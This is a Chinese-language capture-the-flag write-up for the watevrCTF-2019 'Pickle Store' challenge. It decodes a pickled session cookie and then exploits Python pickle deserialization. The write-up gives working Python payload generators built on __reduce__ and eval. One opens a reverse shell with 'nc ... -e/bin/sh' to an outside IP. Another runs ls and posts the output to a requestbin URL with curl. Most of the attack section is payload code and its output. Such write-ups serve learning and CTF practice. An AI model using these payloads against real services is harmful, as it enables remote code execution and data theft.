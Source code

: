 # \[watevrCTF-2019]Pickle Store

## \[watevrCTF-2019]Pickle Store

## 考点

* pickle反序列化

## wp

题目名字也提示了是pickle反序列化

先看看session

```
gAN9cQAoWAUAAABtb25leXEBTfQBWAcAAABoaXN0b3J5cQJdcQNYEAAAAGFudGlfdGFtcGVyX2htYWNxBFggAAAAYWExYmE0ZGU1NTA0OGNmMjBlMGE3YTYzYjdmOGViNjJxBXUu
```

base64解码得到

```
\x80\x03}q\x00(X\x05\x00\x00\x00moneyq\x01M\xf4\x01X\x07\x00\x00\x00historyq\x02]q\x03X\x10\x00\x00\x00anti_tamper_hmacq\x04X \x00\x00\x00aa1ba4de55048cf20e0a7a63b7f8eb62q\x05u.
```

python中使用pickle.dumps()函数序列化，使用pickle.loads()函数反序列化，这两个函数是操作字符串的。

不同版本或者不同平台下Python序列化结果不同

`\x80\x03`是Python pickle反序列化的标准开头

```python
import binascii
import pickle

s='gAN9cQAoWAUAAABtb25leXEBTfQBWAcAAABoaXN0b3J5cQJdcQNYEAAAAGFudGlfdGFtcGVyX2htYWNxBFggAAAAYWExYmE0ZGU1NTA0OGNmMjBlMGE3YTYzYjdmOGViNjJxBXUu'
pickle.loads(binascii.a2b_base64(s))
```

反序列化之后可以得到一个字典

```
{'money': 500, 'history': [], 'anti_tamper_hmac': 'aa1ba4de55048cf20e0a7a63b7f8eb62'}
```

题目提示够买flag需要1000块，感觉修改字典再序列化

![](<../../.gitbook/assets/image (31).png>)

```python
t = {'money': 1000, 'history': [], 'anti_tamper_hmac': 'aa1ba4de55048cf20e0a7a63b7f8eb62'}
binascii.b2a_base64(pickle.dumps(t))
# b'gASVUgAAAAAAAAB9lCiMBW1vbmV5lE3oA4wHaGlzdG9yeZRdlIwQYW50aV90YW1wZXJfaG1hY5SMIGFhMWJhNGRlNTUwNDhjZjIwZTBhN2E2M2I3ZjhlYjYylHUu\n'
```

尝试失败，再看字典的元素，`anti_tamper_hmac`这个元素在够买后发生了改变，应该是后端对key和value做了某种hash加密，由于不知道加密方式，所以不能修改`money`。

尝试反序列化RCE

```python
import binascii
import pickle

shell = '''__import__('os').system('nc 81.68.218.54 30000 -e/bin/sh')'''

class Evil(object):
    def __reduce__(self):
        return (eval, (shell,))
s = Evil()
print(binascii.b2a_base64(pickle.dumps(s)))
```

得到`gASVVgAAAAAAAACMCGJ1aWx0aW5zlIwEZXZhbJSTlIw6X19pbXBvcnRfXygnb3MnKS5zeXN0ZW0oJ25jIDgxLjY4LjIxOC41NCAzMDAwMCAtZS9iaW4vc2gnKZSFlFKULg==`

修改session刷新页面即可反弹shell

![](<../../.gitbook/assets/image (19).png>)

或者使用[`RequestBin`](http://requestbin.cn)接收数据

```python
import binascii
import pickle

shell = '''__import__('os').system("echo `ls` > /tmp/1.txt;curl -v -X POST 'http://requestbin.cn:80/t9dmemt9' -d @/tmp/1.txt")'''

class Evil(object):
    def __reduce__(self):
        return (eval, (shell,))
s = Evil()
print(binascii.b2a_base64(pickle.dumps(s)))
```

![](<../../.gitbook/assets/image (18).png>)
